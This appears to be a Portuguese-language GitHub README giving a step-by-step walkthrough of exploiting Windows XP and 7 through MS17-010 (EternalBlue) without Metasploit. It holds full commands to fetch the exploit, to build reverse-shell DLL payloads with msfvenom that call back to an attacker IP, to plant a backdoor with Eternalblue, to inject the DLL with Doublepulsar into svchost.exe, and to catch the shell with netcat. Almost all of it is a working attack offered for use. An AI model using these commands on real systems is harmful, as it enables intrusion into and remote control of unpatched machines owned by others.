 # MS17-010

Explorando Windows XP/7 com EternalBlue (MS17-010) sem Metasploit.

Testado em:

- Windows 7 Ultimate 7601 Service Pack 1 (32 bits)
- Windows 7 Professional 7601 Service Pack 1 (64 bits)
- Windows XP Professional 2600 Service Pack 2 (32 bits)

#

### Preparando a máquina atacante:
Adicione a arquitetura i386 (para computadores 32 bits) no repositório.
```
dpkg --add-architecture i386
```
```
apt-get update
```
<br>

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks.
```
apt-get install libwine wine wine32 winetricks
```
<br>

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
```
<br>

Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/
```
### Exploração
Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 32 bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```

ou

Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 64 bits
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```
- IP da máquina atacante: 172.20.1.53
- Porta que irá receber a conexão reversa: 8080
<br>

Instalando backdoor no servidor alvo com EternalBlue (Windows 7):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```

ou

Instalando backdoor no servidor alvo com EternalBlue (Windows XP):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target XP --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```
- IP do servidor alvo: 172.16.1.145
<br>

Preparando a máquina atacante para receber a conexão reversa (em outro terminal):
```
rlwrap nc -vnlp 8080
```
<br>

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 32 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll
```

ou

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 64 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x64 --Function Rundll
```
- IP do servidor alvo: 172.16.1.145
<br>
 
Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comando do Windows:
![image](https://user-images.githubusercontent.com/76706456/172243037-3162bf1f-c6ad-45d6-a841-f9cd5cbc5c1b.png)
